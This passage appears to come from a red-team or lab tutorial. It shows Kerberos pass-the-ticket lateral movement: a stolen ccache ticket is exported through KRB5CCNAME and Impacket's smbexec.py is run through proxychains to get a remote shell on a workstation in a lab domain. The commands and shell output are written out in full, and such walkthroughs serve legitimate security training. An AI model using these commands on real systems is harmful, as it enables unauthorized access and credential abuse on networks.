 We then need an environment variable called `KRB5CCNAME` that points to the ticket on disk.

```batch
attacker@DESKTOP-FGSTPS7:~$ export KRB5CCNAME=/mnt/c/Users/Attacker/Desktop/rsteel.ccache
```

Then instead of using a plaintext password, we use Impacket's `-no-pass`, `-k`, and `-dc-ip` parameters.

```batch
attacker@DESKTOP-FGSTPS7:~$ proxychains smbexec.py -no-pass -k -dc-ip lon-dc-1 CONTOSO.COM/rsteel@lon-ws-1
ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

|S-chain|-<>-10.0.0.5:1080-<><>-10.10.120.10:445-<><>-OK
|S-chain|-<>-10.0.0.5:1080-<><>-10.10.120.1:88-<><>-OK
[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>
```
